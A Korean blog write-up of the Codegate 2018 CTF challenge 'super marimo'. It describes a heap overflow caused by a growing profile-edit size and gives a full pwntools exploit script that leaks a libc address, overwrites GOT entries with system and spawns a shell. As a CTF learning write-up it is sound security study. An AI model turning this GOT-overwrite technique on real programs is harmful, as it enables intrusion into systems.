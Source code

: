 ```yaml
---
layout: post
title: ! '[Codegate2018 CTF] super marimo writeup'
excerpt_separator: <!--more-->
comments: true
tags:
  - CTF
  - Write-up
---
```


올해 초 CTF에서 열심히 삽질했던 문제...지만 결국 못 풀었다. 최근 h3x0r CTF 문제들을 풀어보면서 힙 문제에 관심이 생겼는데, 갑자기 이 문제가 기억이 나서 서버 한구석에 던져져 있던걸 주섬주섬 꺼내서 풀어보았다. 그래도 그동안 공부한 성과인지 풀 수 있었다 감동 ㅠㅡㅠ

<!--more-->

## 개요

원래 대회에서는 libc도 있었던거같은데 기억 안난다.. 그냥 로컬 환경에서만 익스할 수 있게 했다.

> root@ubuntu:~/CTF/Codegate2018/SuperMarimo.d# file marimo 
>
> marimo: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=45e9b4d54ca35be0defe243f0f8a4982bbac82dc, stripped

64비트 바이너리다. 문제를 분석해보면 마리모를 사고 팔 수 있는 프로그램인데, 처음에 돈이 0원이라서 마리모를 못 산다. 그런데 커맨드를 입력할 때 `show me the marimo`를 입력하면, 치트키처럼 마리모를 하나 공짜로 얻을 수 있다.

## 접근

원래는 `sell marimo` 명령이 인덱스를 검사하지 않고, 해당 영역을 해제하지 않아서 (또는 안에 있는 값이 해제된 값인지 검사하지 않아서) `number of marimo` 카운트가 음수가 될 수 있으며, 마리모 판매시에 주소값을 덮어쓰는 형식으로 GOT & PLT 영역을 덮어쓸 수 있음에 주목했었다. 그러나 값을 leak하기가 어렵고, 정확하게 해당 영역만 조작하기가 꽤 어려워서 그만뒀다.

![]({{ site.baseurl }}/images/KRater/2018-07-03-super-marimo-writeup/pic01.PNG)

그 다음, profile 수정 시에 마리모의 size (*32) 만큼 값을 써줄 수 있는데, 마리모가 시간에 따라 자라기 때문에 쓸 수 있는 값이 점점 증가하는 점에 주목하였다. 마리모는 자라서 프로필 작성을 더 크게 해줄 수 있는데, 영역이 고정되어 있어서 생기는 문제점이다. 해당 취약점을 바탕으로 익스플로잇 코드를 작성하였다.

## 익스플로잇

```python
from pwn import *

global r

PROCESS = "./marimo"
r = process(PROCESS)

def main () :
	r.recvuntil(">> ")

	show_me ("marimo1", "profile1")
	show_me ("vuln", "AAAA")

	sleep(3)

	modify (0, "A"*40 + "B"*8 + "C"*8 + p64(0x603040)*2)
	strcmp_addr = leak()
	system_addr = strcmp_addr - 0x5A1E0
	
	log.info("strcmp : " + hex(strcmp_addr))
	log.info("system : " + hex(system_addr))

	modify(1, p64(system_addr) + p64(system_addr))
	
	r.interactive() # /bin/sh

def modify (index, profile) :
	r.sendline("V")
	r.recvuntil(">> ")
	r.sendline(str(index))
	r.recvuntil(">> ")
	r.sendline("M") # [M]odify
	r.recvuntil(">> ")
	r.sendline(str(profile)) # new profile
	r.recvuntil(">> ")
	r.sendline("B") # [B]ack
	r.recvuntil(">> ")

def leak () :
	r.sendline("V")
	r.recvuntil(">> ")
	r.sendline("1")
	r.recvuntil("name : ")
	data = r.recv(6) + "\x00\x00"

	r.recvuntil(">> ")
	r.sendline("B")
	r.recvuntil(">> ")
	return u64(data)

def buy (size, name, profile) :
	r.sendline("S")
	r.recvuntil(">> ")
	r.sendline(str(size))
	r.recvuntil(">> ")
	r.sendline("P") # [P]ay
	r.recvuntil(">> ")
	r.sendline(str(name))
	r.recvuntil(">> ")
	r.sendline(str(profile))
	r.recvuntil(">> ")

def show_me (name, profile) :
	r.sendline("show me the marimo")
	r.recvuntil(">> ")
	r.sendline(name)
	r.recvuntil(">> ")
	r.sendline(profile)
	r.recvuntil(">> ")
	print ("show me done. id : " + name)

def sell (num) :
	r.sendline("S")
	r.recvuntil(">> ")
	r.sendline(str(num))
	r.recvuntil("?")
	r.sendline("S")
	r.recvuntil(">> ")
	print ("Sell done.")

if __name__ == '__main__' :
	main()

```

재밌는 문제였지만 추후에 출제자분께 여쭤보니 다른 `intended solution`이 있다고 한다.

해당 방법을 사용해서 나중에 다시 풀어봐야 겠다!
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEyNTE5NTc1MjFdfQ==
-->